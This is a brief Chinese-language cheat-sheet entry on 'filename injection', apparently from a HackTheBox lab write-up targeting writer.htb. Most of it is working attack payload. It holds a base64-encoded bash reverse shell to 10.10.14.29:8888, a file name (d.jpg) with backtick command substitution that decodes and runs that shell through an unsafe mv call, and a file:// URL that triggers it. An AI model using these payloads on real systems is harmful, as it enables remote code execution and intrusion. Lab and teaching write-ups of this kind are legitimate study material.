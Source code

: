 # 文件名注入

1. 当能发现文件上传的一些底层逻辑，发现mv的不安全调用

```bash
echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.29/8888 0>&1"' | base64

touch 'd.jpg;`echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yOS84ODg4IDA+JjEi|base64 -d|bash`;'
```

1. 访问方法（访问网页文件）

```bash
file:///var/www/writer.htb/writer/static/img/d.jpg;`echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yOS84ODg4IDA+JjEi|base64 -d|bash`;#
```
